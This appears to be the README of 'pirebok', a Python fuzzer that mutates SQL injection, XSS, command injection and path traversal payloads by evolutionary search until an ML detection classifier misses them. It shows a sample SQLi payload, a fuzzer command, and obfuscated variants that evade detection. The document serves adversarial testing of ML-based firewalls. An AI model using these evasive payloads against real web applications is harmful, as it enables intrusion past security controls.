

# pîrebok (from Kurdish "witch") - a guided adversarial fuzzer with evolutionary search




[](https://pypi.org/project/pirebok/)
[](https://pypi.org/project/pirebok/)
[](https://github.com/HappyHackingSpace/pirebok/actions/workflows/ci.yml)
[](https://codecov.io/github/HappyHackingSpace/pirebok)


* Documentation: <https://happyhackingspace.github.io/pirebok>
* GitHub: <https://github.com/HappyHackingSpace/pirebok>
* PyPI: <https://pypi.org/project/pirebok/>
* Free software: MIT

## How it works

Give it a payload. It mutates it until it bypasses the classifier.

```bash
pirebok -f GuidedRandomSqlFuzzer -p "admin' OR 1=1#" -s 5 -q
```

```
"admin' OR%001313<>1314#"
'admin\'/*%%0x9*/|| 1=1 || "iD" NOT LIKE "iD"#'
"ADmIn'/*>SQN*//**//*h[xI*/or/*p*//**/0X1=0X1#s<"
'AdMin\'\x0c|| "b"<>"bV"#;YR\x0b'
'aDMin\'||"Mce"%%231BF7%%0ALiKE%00"McE"#>wgpxX'
```

The original `admin' OR 1=1#` is classified as **sqli with 100% confidence**. After evolutionary mutations, the classifier misclassifies them as xss with confidence dropping to **0.48** - below the detection threshold.

| Confidence | Classification | Payload |
|---|---|---|
| 1.0000 | sqli | `admin' OR 1=1#` |
| 0.7808 | xss | `admin'/*PCvp<a*/\|\|%000x1=0x1#i>` |
| 0.4785 | xss | `ADmiN'%%0x39441%%0aOr/**/'Te'<>'TeD'#-HLa.` |

## Install

```bash
pip install pirebok

# for guided mode (requires metamaska)
pip install pirebok[guided]
```

## Features
- **4 attack types**: SQL injection, XSS, command injection, path traversal
- Random and guided (evolutionary) fuzzers for each attack type
- Guided fuzzers use [metamaska](https://github.com/HappyHackingSpace/metamaska) classifier to iteratively mutate payloads until they evade detection
  - Priority-queue-based payload pool ranked by confidence
  - Configurable `max_rounds`, `round_size`, and `timeout`
- 17 type-specific transformers + 6 generic transformers

## Credits
- [Cookiecutter](https://github.com/audreyr/cookiecutter)
- [waynerv/cookiecutter-pypackage](https://github.com/waynerv/cookiecutter-pypackage)
- [ML-based-WAF](https://github.com/vladan-stojnic/ML-based-WAF)
- [WAF-A-MoLE](https://github.com/AvalZ/WAF-A-MoLE)
